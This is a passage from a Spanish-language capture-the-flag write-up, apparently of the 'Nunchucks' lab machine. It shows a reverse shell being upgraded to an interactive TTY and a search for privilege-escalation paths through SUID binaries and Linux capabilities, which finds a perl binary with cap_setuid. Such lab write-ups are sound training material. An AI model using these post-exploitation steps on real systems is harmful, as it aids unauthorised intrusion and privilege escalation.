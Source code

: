 Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
david@nunchucks:/var/www/store.nunchucks$ script /dev/null -c bash
Script started, file is /dev/null
david@nunchucks:/var/www/store.nunchucks$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
david@nunchucks:/var/www/store.nunchucks$ export TERM=xterm
david@nunchucks:/var/www/store.nunchucks$ export SHELL=bash
david@nunchucks:/var/www/store.nunchucks$ stty rows 46 columns 230
```

## Privilege Escalation

### Attempting to perform Abusing Capabilities (perl) \[FAILED]

Revisaremos una comprobación de los grupos y de si disponemos de permisos de `sudoers`. En este caso, no disponemos de grupos especiales y tampoco podemos comprobar los privilegios `sudoers` debido que nos requiere proporcionar credenciales del usuario `david` el cual de momento no disponemos.

```bash
david@nunchucks:/var/www/store.nunchucks$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:/var/www/store.nunchucks$ sudo -l
[sudo] password for david: 
```

Por otro lado, revisamos si había algún binario inusual con privilegios de `SUID`, no logramos encontrar ninguno. Intentamos también verificar si disponíamos de alguna `capabilitie`, en el resultado obtenido, nos encontramos la capabilitie `/usr/bin/perl = cap_setuid+ep`, con la cual podríamos llegar a aprovecharnos para obtener acceso como `root`.

```bash
david@nunchucks:/var/www/store.nunchucks$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd

david@nunchucks:/var/www/store.nunchucks$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
